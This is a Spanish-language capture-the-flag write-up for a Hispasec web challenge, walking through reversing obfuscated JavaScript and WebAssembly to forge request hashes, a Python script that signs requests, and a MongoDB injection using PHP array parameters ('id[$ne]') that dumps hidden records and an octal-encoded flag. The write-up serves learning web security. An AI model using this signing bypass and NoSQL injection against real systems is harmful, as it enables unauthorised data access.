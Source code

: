 ```yaml
---
layout: post
title: UAM - Matrix - Episode 2

---
```


## El reto

> (<a href="https://unaalmes.hispasec.com/challenges#EPISODIO%202">Resumen</a>) Hay que destripar la siguiente web: `http://34.247.69.86/matrix/episodio2/index.php`



## Primeros pasos

Al entrar, vemos información del primer registro (id: 1). Nuestra primera idea es intentar obtener los siguientes registros.

```bash
curl "http://34.247.69.86/matrix/episodio2/index.php?id=2"
[...]
Undefined hash
```

Nos dice que hash no está definido:

```bash
curl "http://34.247.69.86/matrix/episodio2/index.php?id=2&hash=prueba"
[...]
Hash error
```

Entendemos que el servidor espera algún tipo de firma... Probamos a pasar como hash el md5, sha1, sha256, del valor en id, pero siempre vemos el mismo error.

## Javascript + Web Assembly

Investigamos un poco la web, y vemos que hace referencia a un par de ficheros javascript. Empezamos por index.min.js. Lo formateamos con el chrome (pinchando en{}) y obtenemos código parcialmente ofuscado. Buscando en google algunas constantes que aparecen, como 0x28955b88, vemos que se pertenece a una función que realiza el MD5. Vamos bien.

Al final del fichero vemos dos funciones. nono() nos trollea cada vez que hacemos un resize de la página. doIt() es extraña, porque nadie la llama:

```javascript
function doIt(_0x3a59ab) {
    var _0x5482b3 = OMG(_0x3a59ab);
    var _0x32ea98 = '0x' + _0x5482b3[_0x3358('0x13')](0x0, 0x8);
    var _0x38175b = '0x' + _0x5482b3[_0x3358('0x13')](0x8, 0x8);
    var _0x49b2a5 = '0x' + _0x5482b3[_0x3358('0x13')](0x10, 0x8);
    var _0x340f9f = '0x' + _0x5482b3[_0x3358('0x13')](0x18, 0x8);
    return Module[_0x3358('0x14')](_0x32ea98, _0x38175b, _0x49b2a5, _0x340f9f);
}
```

Después de desofuscarla nos queda esto:
```javascript
function doIt(val) {
    var md5 = OMG(val);
    var p1 = '0x' + md5.substr(0, 8);
    var p2 = '0x' + md5.substr(8, 8);
    var p3 = '0x' + md5.substr(16, 8);
    var p4 = '0x' + md5.substr(24, 8);
    return Module['_calc'](p1, p2, p3, p4);
}
```

Poniendo unos *console.log()* vemos que OMG está haciendo el MD5. Posteriormente divide ese hash en 4 partes de 8 `nibbles`, y se los pasa a la función *_calc*...

Probamos a llamarla desde la consola del navegador:

```javascript
doIt(1)
113948091
doIt(2)
-163535797
```

La función *_calc* está definida en main.js. Este fichero parece autogenerado. Es una especie de interfaz entre el navegador y el fichero main.wasm, Web Assembly.

Usaremos wasmdec, que intenta decompilar los webassembly a C. El fichero que genera es bastante grande, pero buscando por *_calc*, vemos estas líneas:

```c
/*
	Function 'fn_4':
		WASM name: '4'
		Export name: '_calc'
*/

int fn_4(int local_0, int local_1, int local_2, int local_3) { 
    // Quitamos mucha paja

	local_11 = local_0;
	local_12 = local_1;
	local_13 = local_2;
	local_14 = local_3;
	local_16 = local_11;
	local_4 = local_12;
	local_5 = local_16 ^ local_4;
	local_6 = local_13;
	local_7 = local_5 ^ local_6;
	local_8 = local_14;
	local_9 = local_7 ^ local_8;
	local_15 = local_9;
	local_10 = local_15;

	return local_10;    //Resumiendo ese churro, devuelve el xor entre los 4 parámetros.
}
```

## Generando hashes

Suponemos que el metodo de hashing utilizado es el de la función *_calc* que acabamos de ver, es decir, md5 y xor de sus 4 bloques de 4 bytes. Volvemos a la carga:

```bash
$ curl "http://34.247.69.86/matrix/episodio2/index.php?id=1&hash=113948091"
[...]
Hash error
```

Nos damos cabezazos contra el teclado mientras esperamos que liberen una pista:
> El hash requerido utiliza la string "34.247.69.86/matrix/episodio2/index.php?id=(?)"

Aaaaamigo. Ya sabemos cómo firmar nuestras peticiones. Probamos con el id=1:

```javascript
doIt("34.247.69.86/matrix/episodio2/index.php?id=1")
-1758453311
```

```bash
$ curl "http://34.247.69.86/matrix/episodio2/index.php?id=1&hash=-1758453311"
[...]
Hash error
```

Sigue fallando. En este punto ya tenía una función que calculaba los hashes en python, y resulta que los calcula como un entero sin signo. El mismo hash quedaría como 2536513985:

```bash
$ curl "http://34.247.69.86/matrix/episodio2/index.php?id=1&hash=2536513985"
[...]
Id: 1<br>Nombre: Morfeo<br>Sexo: Varon
```

Vamos bien. Como nota curiosa, la forma de convertir de entero con signo a sin signo en javascript es hacer uso del operador `>>>` (shift right), que convierte a unsigned. Si le pedimos que cambie 0 bits, nos deja el mismo valor, pero sin signo:

```javascript
doIt("34.247.69.86/matrix/episodio2/index.php?id=1") >>> 0
2536513985
```

## Automatizando con Python

Ahora que sabemos cómo interactuar con la página, vamos a automatizarlo. 

```python
import hashlib
import requests

def calc_hash(val):
    m = hashlib.md5(str(val).encode()).hexdigest()

    p0 = int(m[ 0: 8], 16)
    p1 = int(m[ 8:16], 16)
    p2 = int(m[16:24], 16)
    p3 = int(m[24:32], 16)

    return p0 ^ p1 ^ p2 ^ p3

if len(sys.argv)>1:
    id=sys.argv[1]
    datos_a_firmar="34.247.69.86/matrix/episodio2/index.php?id=" + str(id)
    h=calc_hash(datos_a_firmar)

    r = requests.get("http://34.247.69.86/matrix/episodio2/index.php", {"id":id, "hash":h})
    print(r.text)
else:
    print("python3 makerequest.py <id>)

```

Con este script podemos generar peticiones para parámetros id arbitrarios. Vemos que hay registros hasta el 7, pero el 8 devuelve vacío.
Intentamos (con cuidado) probar hasta el 100, pero no encontramos nada.
Intentamos también realizar inyecciones SQL del tipo `id="0' or '1'='1"`. Puede que esté más filtrado de la cuenta, o que directamente no sea SQL.

Probamos inyección para Mongodb. Se basa en hacer llegar un array (en lugar de un string) a la función que hace la consulta. La consulta `['id'=>$_GET['id']]`, que en condiciones normales compara *id* con un string, si conseguimos pasarle un array, podemos añadir modificadores.

Por ejemplo, `['id => ['$ne'=>'1']]` buscaría todos registros cuyo *id* sea distinto de 1.

Gracias a PHP, crear arrays es de lo más sencillo. Pasando `?id[hola]=mundo` a la petición web, obtenemos en la parte php la variable `$_GET['id']`, que contiene el array `["hola" => "mundo"]`.

Modificamos la petición de la función anterior:

```python
r = requests.get("http://34.247.69.86/matrix/episodio2/index.php", {"id[$ne]":id, "hash":h})
```

Nota: Nos damos cuenta de que, aunque pasemos una array, el servidor sigue calculando el hash con el valor final de *id*, en lugar de con el array en sí, lo cual agradecemos, ya que complicaría la inyección enormemente... (o no, nunca lo sabremos, `md5(array())` devuelve `NULL`, y un array convertido a string siempre es `"Array"` :))

```html
$ python3 makerequest.py 0
[...]
Id: 1<br>Nombre: Morfeo<br>Sexo: Varon
 <br><br>Id: 2<br>Nombre: Trinity<br>Sexo: Mujer
 <br><br>Id: 3<br>Nombre: Oraculo<br>Sexo: Mujer
 <br><br>Id: 4<br>Nombre: Cypher<br>Sexo: Varon
 <br><br>Id: 5<br>Nombre: Dozer<br>Sexo: Varon
 <br><br>Id: 6<br>Nombre: Neo<br>Sexo: Varon
 <br><br>Id: 7<br>Nombre: Mujer de rojo<br>Sexo: Mujer
 <br><br>Id: 57069<br>Nombre: 125:101:115:173:61:60:66:67:62:64:60:71:60:145:64:142:62:70:146:64:62:145:67:63:70:66:62:60:141:64:60:67:65:67:146:62:175<br>Sexo: XXX
```

Bingo! 

Por fin vemos datos del último registro. Por fuerza bruta, con ese `id` tan alto, habríamos tardado un buen rato.

## Última parte

Sólo nos falta decodificar esos números. Una simple conversión a ASCII no funciona. Nos damos cuenta (despúes de un rato) que no hay ningún numero 8 ni 9. Podría ser octal.

```bash
$ NUMEROS=`echo 125:101:115:173:61:60:66:67:62:64:60:71:60:145:64:142:62:70:146:64:62:145:67:63:70:66:62:60:141:64:60:67:65:67:146:62:175 | tr ':' ' '`
$ for n in $NUMEROS ; do rax2 ${n}o ; done | rax2 -s

UAM{106724090e4b28f42e738620a40757f2}
```

Ahí, abusando de radare :)



